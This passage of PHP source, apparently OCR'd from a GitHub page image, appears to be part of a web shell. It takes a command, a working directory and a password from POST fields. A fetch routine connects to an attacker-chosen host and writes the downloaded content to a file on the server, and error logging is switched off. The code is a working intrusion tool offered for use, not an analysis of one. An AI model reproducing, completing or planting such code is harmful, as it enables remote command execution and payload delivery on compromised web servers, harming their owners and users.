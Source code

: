 ```php
		{
			$buf = '';
			$r = array($s);
			$w = NULL;
			$e = NULL;
			fwrite($s, "GET ${src} HTTP/1.0\r\n\r\n");
			while (stream_select($r, $w, $e, 5) && !feof($s))
			{
				$buf .= fread($s, 1024);
			}
			$buf = substr($buf, strpos($buf, "\r\n\r\n") + 4);
			fwrite($f, $buf);
			fclose($f);
			$ret .= "${ok} Fetched file <i>${dst}</i> (" . strlen($buf) . " bytes)<br />";
		}
		else
		{
			$ret .= "${err} Failed to open file <i>${dst}</i><br />";
		}
		fclose($s);
	}
	else
	{
		$ret .= "${err} Failed to connect to <i>${host}:${port}</i><br />";
	}
	return $ret;
}

ini_set('log_errors', '0');
ini_set('display_errors', '1');
error_reporting(E_ALL);

while (@ ob_end_clean());

if (! isset($_SERVER))
{
	global $HTTP_POST_FILES, $HTTP_POST_VARS, $HTTP_SERVER_VARS;
	$_FILES = &$HTTP_POST_FILES;
	$_POST = &$HTTP_POST_VARS;
	$_SERVER = &$HTTP_SERVER_VARS;
}

$auth = '';
$cmd = empty($_POST['cmd']) ? '' : $_POST['cmd'];
$cwd = empty($_POST['cwd']) ? getcwd() : $_POST['cwd'];
$fetch_func = 'fetch_fopen';
$fetch_host = empty($_POST['fetch_host']) ? $_SERVER['REMOTE_ADDR'] : $_POST['fetch_host'];
$fetch_path = empty($_POST['fetch_path']) ? '' : $_POST['fetch_path'];
$fetch_port = empty($_POST['fetch_port']) ? '80' : $_POST['fetch_port'];
$pass = empty($_POST['pass']) ? '' : $_POST['pass'];
$url = $_SERVER['REQUEST_URI'];
$status = '';
$ok = '&#9786; :';
$warn = '&#9888; :';
$err = '&#9785; :';

if (! empty($passhash))
{
	if (function_exists('hash_hmac') || function_exists('mhash'))
	{
		$auth = empty($_POST['auth']) ? h($pass) : $_POST['auth'];
		if (h($auth) !== $passhash)
		{
```